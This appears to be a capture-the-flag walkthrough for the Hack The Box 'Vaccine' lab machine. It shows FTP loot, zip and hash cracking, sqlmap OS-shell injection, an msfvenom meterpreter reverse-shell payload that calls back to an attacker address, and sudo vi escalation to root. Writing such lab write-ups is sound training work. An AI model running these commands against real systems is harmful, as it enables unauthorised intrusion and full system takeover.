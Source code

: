 ```yaml
---
layout: post
title: Vaccine
published: true
category: CTF
system: web
walkthrough-type: htb
source: https://app.hackthebox.com/starting-point
Description: An easy box with with a sql injection vulnerability.
tags: Databases, Injection, Apache, PostgreSQL, FTP, PHP, Password Cracking, RCE
---
```


Start with adding Vaccine to `/etc/hosts` then after the initial nmap scan we can service scan the 3 ports we discover.

- `sudo nmap -sC -sV -O -p21,22,80 vaccine.htb -oN nmap_second`

FTP access allows anonymous login we can grab a file `backup.zip` from there. Trying to unzip this file we have a password protected zip file containingh index.php and style.css

We can use johns `zip2john backup.zip > backup.zip.hash` to create a readable hash we can feed to john to crack the zipfile. once complete feed to john with `john backup.zip.hash` and we find the password `741852963`.

Checking the index.php we find some credentials `admin` and an md5 password which we can feed to crackstation.net and get `qwerty789` Login to admin.

The next page we coem to has a search and using sqlmap to test for injection we get lucky `sqlmap -u http://vaccine.htb/dashboard.php?search=1 --os-shell --cookie=PHPSESSID=o4htgfqc51canihdh9o93rdc44`

we can use this to get a reverse shell on the target. 

- generate payload `msfvenom -p linux/x86/meterpreter_reverse_tcp -f elf LHOST=10.10.16.193 LPORT=8765 > rev.elf` and wget over to the target.

After setting up a multi handler with the correct payload ./rev.elf and get a shell. We could have also just read the .ssh file inside the postgres home dir and grab the id_rsa. Doing that now for a stable connection.

Inside the /var/www/html we find a dashboard.php with postgres creds. `P@s5w0rd!` allowing us to run `sudo -l`

```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
- FOLLOWED BY `:!/bin/sh` and we are root.








